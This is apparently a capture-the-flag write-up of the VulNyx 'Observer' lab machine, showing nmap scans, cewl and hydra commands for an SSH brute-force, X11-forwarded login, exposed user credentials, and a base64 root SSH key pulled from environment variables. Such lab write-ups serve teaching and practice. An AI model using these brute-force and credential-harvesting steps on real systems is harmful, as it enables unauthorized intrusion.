 ```yaml
---
title: VulNyx - Observer Writeup
date: 2025-06-11 20:45:00 +0530
categories: [Vulnyx, Writeups]
tags: [linux, cewl, hydra, ssh-bruteforce, x11forwarding, credential-exposure, env, privesc]
description: 
---
```


`Observer` is an easy difficulty linux box. This machine consists of brute-forcing an SSH instance, initial access via X11Forwarding, user credential exposure, and finally privilege escalation via an exposed root SSH private key in the environment variables.

## Enumeration

### Nmap

Performing a basic port scan and service enumeration with `nmap` gives us the following 

```bash
❯ nmap -p- observer.nyx -v     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-11 08:43 EDT
Initiating ARP Ping Scan at 08:43
Scanning observer.nyx (192.168.25.16) [1 port]
Completed ARP Ping Scan at 08:43, 0.05s elapsed (1 total hosts)
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Initiating SYN Stealth Scan at 08:43
Scanning observer.nyx (192.168.25.16) [65535 ports]
Discovered open port 22/tcp on 192.168.25.16
Discovered open port 80/tcp on 192.168.25.16
Completed SYN Stealth Scan at 08:43, 1.96s elapsed (65535 total ports)
Nmap scan report for observer.nyx (192.168.25.16)
Host is up (0.000087s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:81:C3:75 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.13 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

```bash
❯ nmap -sC -sV -p 22,80 observer.nyx 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-11 08:43 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for observer.nyx (192.168.25.16)
Host is up (0.00024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: iData-Hosting-Free-Bootstrap-Responsive-Webiste-Template
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:81:C3:75 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds
```

As we can see we have OpenSSH running on port `22` and an Apache httpd server running on port 80

## HTTP (80)

We tried performing directory and v-host enumeration but could not find anything useful. However, the website content contained possible usernames as shown below.

![image.png](/assets/img/observer_vulnyx/image.png)

### Creating username wordlist

```bash
❯ cat users.txt                           
john
mike
remo
niscal
```

### Creating password wordlist (cewl)

We created a wordlist using `cewl` that can be used to attempt a SSH brute-force attack. 

```bash
❯ cewl http://observer.nyx -w wordlist.txt
```

## SSH Brute-force

By performing a brute-force attack we obtained valid SSH credentials `niscal:niscal`

```bash
hydra -L users.txt -P wordlist.txt ssh://observer.nyx:22 -u 
```
![image.png](/assets/img/observer_vulnyx/image%206.png)

![image.png](/assets/img/observer_vulnyx/image%201.png)

Interesting..let’s try logging in by using trusted `X11Forwarding`



```bash
ssh -Y niscal@observer.nyx
```

We find exposed credentials for the user `remo`

![image.png](/assets/img/observer_vulnyx/image%202.png)

## User flag

![image.png](/assets/img/observer_vulnyx/image%203.png)

## Privilege Escalation

### Environment variables

```bash
remo@observer:~$ env
```
We discovered an environment variable name `rootKEY` which appears to be encoded in `base64` 

![image.png](/assets/img/observer_vulnyx/image%204.png)

### Decoding base64 “rootKEY”

We decoded the `base64` encoded `rootKEY` which revealed an SSH private key which we stored in the file `private_key` and modified permissions.

```bash
echo -n "redacted"| base64 -d > private_key
```

```bash
chmod 600 private_key
```

### Root flag

```bash
ssh -i private_key root@observer.nyx
```

![image.png](/assets/img/observer_vulnyx/image%205.png)